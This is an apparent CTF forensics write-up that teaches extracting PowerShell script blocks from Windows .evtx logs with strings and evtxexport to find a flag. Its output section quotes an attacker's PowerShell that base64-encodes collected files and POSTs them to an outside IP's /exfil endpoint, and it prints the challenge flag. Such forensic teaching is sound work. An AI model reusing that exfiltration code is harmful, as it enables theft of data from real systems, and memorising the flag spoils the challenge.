

# The Audit Trail [6.8]

## Challenge

<p align="center">
  
</p>

## Solution

This writeup assumes you are new to CTFs and digital forensics. We will walk through how Windows Event Logs work, how to extract readable text from binary `.evtx` files, and how to find the exact commands an attacker executed.

### 1. Challenge Overview

The challenge description gives us a strong hint about where to look:
> *"Windows was watching. Even when the attacker thought they were operating in the shadows, the operating system quietly recorded exactly what was executed. The evidence is buried in the logs - if you know which ones."*

**Breakdown of the clues:**
*   **"Quietly recorded exactly what was executed"**: This points directly to **Windows Event Logs**. When processes run or scripts execute, Windows logs them. Specifically, PowerShell logs exact script blocks if Script Block Logging is enabled.
*   **"Buried in the logs"**: Windows stores these logs in `C:\Windows\System32\winevt\Logs\` as `.evtx` files.

### 2. Step 1 — The CTF "Quick and Dirty" Way

Windows Event Logs (`.evtx`) are binary XML files that store string data in **UTF-16LE** (16-bit little-endian). Standard tools like `strings` or `grep` will look for standard ASCII text and find nothing unless you specify the encoding.

If you just want to blast through the logs quickly, you can use `strings` with the `-e l` flag (16-bit little-endian) and pipe it into `grep`:

```bash
cd ~/Downloads/PETCTF2026PrelimWriteup/Kerteh/1\ -\ Infected\ Package/extracted_vm
strings -e l Windows/System32/winevt/Logs/*.evtx | grep -i "PETRONAS"
```

*Note: While this works, it dumps a massive amount of text into your terminal and can accidentally spoil flags for other challenges in the same CTF image.*

### 3. Step 2 — The Proper Forensic Way (evtxexport)

The professional way to analyze Event Logs is to parse them into readable XML. We can use `libevtx-utils`, which contains a tool called `evtxexport`. 

First, install the tool:
```bash
sudo apt install libevtx-utils -y
```

Instead of searching all logs, we know PowerShell logs its execution in the Operational log. Let's convert just that specific file to an XML file:

```bash
evtxexport -f xml "Windows/System32/winevt/Logs/Microsoft-Windows-PowerShell%4Operational.evtx" > powershell_logs.xml
```

### 4. Step 3 — Searching the Parsed Logs

Now that the file is plain text XML, we can search for the attacker's activity. From previous challenges, we know the attacker was exfiltrating data. Let's search for the keyword `exfilKey` and use `grep -C 5` to show 5 lines of context before and after the match:

```bash
grep -C 5 "exfilKey" powershell_logs.xml
```

**Output:**
```xml
$collectedData = foreach ($f in $targetFiles) {
    if (Test-Path $f) { Get-Content $f -Raw }
}
$payload  = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes(($collectedData -join "`n")))
$exfilKey = "PETRONAS{SCR1PTB10CK_4UD1T}"
try {
    $headers = @{ "X-Campaign" = "XENOTIME-KTH"; "X-Key" = $exfilKey }
    Invoke-WebRequest -Uri "http://185.141.27.93:8443/exfil" `
        -Method POST -Body $payload -Headers $headers `
        -TimeoutSec 3 -ErrorAction Stop
}
```

**Why this method is better:**
1. **No Noise:** You don't get spoilers for other challenges.
2. **Context:** You can see exactly how the attacker used the key (`$exfilKey` was used as an HTTP header `X-Key`), proving they were exfiltrating data to the C2 server.
3. **Scalable:** If you had a 10GB log file, `strings` would freeze your terminal. `evtxexport` parses it correctly and cleanly.

The variable name `SCR1PTB10CK_4UD1T` refers to **Script Block Auditing** (Event ID 4104). Even though the attacker thought they were operating in the shadows, Windows logged the entire script block, revealing the secret.

### 5. The Flag

**`PETRONAS{SCR1PTB10CK_4UD1T}`**

### 6. Cheat Sheet — Commands Used

```bash
# 1. Navigate to the extracted VM
cd ~/Downloads/PETCTF2026PrelimWriteup/Kerteh/1\ -\ Infected\ Package/extracted_vm

# 2. (Quick Method) Search Event Logs using UTF-16LE encoding
strings -e l Windows/System32/winevt/Logs/*.evtx | grep -i "PETRONAS"

# 3. (Pro Method) Install the Event Log parser
sudo apt install libevtx-utils -y

# 4. Export the specific PowerShell log to XML
evtxexport -f xml "Windows/System32/winevt/Logs/Microsoft-Windows-PowerShell%4Operational.evtx" > powershell_logs.xml

# 5. Search the parsed XML for the flag with context
grep -C 5 "exfilKey" powershell_logs.xml
```

## Flag

```text
PETRONAS{SCR1PTB10CK_4UD1T}
```
